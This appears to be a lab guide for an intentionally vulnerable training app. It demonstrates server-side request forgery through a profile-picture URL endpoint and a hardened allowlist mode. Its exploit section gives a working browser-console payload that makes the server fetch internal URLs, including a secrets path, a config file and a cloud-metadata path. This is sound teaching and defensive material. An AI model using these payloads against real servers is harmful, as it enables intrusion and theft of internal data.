




# Server Side Request Forgery
Server is tricked into making internal requests from the outside. Typically enabled by lax internal request policies that don't properly distinguish from external. Can grant attackers access to or control of server and its contents.



## Prerequisites
At least one registered user account with a valid token. Log out then back in again if any console output indicates that the token has expired.

## Demonstrations

### upload_profile_picture_url()
This endpoint allows an external URL to navigate to and influence any other endpoint.

```mermaid
sequenceDiagram
    participant upload_profile_picture_url() endpoint
    participant SSRF.fetch_and_store_image()
    participant SSRF._is_allowed_url()
    participant URL Target

    alt Vulnerable mode
        upload_profile_picture_url() endpoint->>URL Target: Fetch image_url directly (no strict validation)
        URL Target-->>upload_profile_picture_url() endpoint: Return internal or arbitrary content
    else Hardened mode
        upload_profile_picture_url() endpoint->>SSRF.fetch_and_store_image(): Route URL through mitigation
        SSRF.fetch_and_store_image()->>SSRF._is_allowed_url(): Validate scheme and allowlisted host
        SSRF._is_allowed_url()-->>SSRF.fetch_and_store_image(): Allow/deny decision
        SSRF.fetch_and_store_image()->>URL Target: Fetch only if URL is allowed
        URL Target-->>SSRF.fetch_and_store_image(): Return allowed image content
    end
```

#### Exploit
1. Log in as any user.
2. Open the browser console
3. Paste the following code, press enter, then observe outcome:

    ```const origin = window.location.origin;
    const token = localStorage.getItem('jwt_token');

    fetch(`${origin}/upload_profile_picture_url`, {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'Authorization': `Bearer ${token}`
    },
    body: JSON.stringify({
        image_url: 'http://127.0.0.1:5000/internal/secret'
    })
    }).then(r => r.json()).then(console.log);


Feel free to attempt this with other internal endpoints like `http://127.0.0.1:5000/internal/config.json` and `http://127.0.0.1:5000/latest/meta-data/` as described in the original vuln-bank docs.

#### Mitigate
1. Enable hardening.
2. Repeat exploit steps above and observe outcome:


3. Paste the following code, press enter, then observe outcome (succeeds; domain on allowlist):

    ```const origin = window.location.origin;
    const token = localStorage.getItem('jwt_token');

    fetch(`${origin}/upload_profile_picture_url`, {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'Authorization': `Bearer ${token}`
    },
    body: JSON.stringify({
        image_url: 'https://oregonstate.edu/sites/default/files/2023-09/corvallis-aerial-900x600.jpg'
    })
    }).then(r => r.json()).then(console.log);



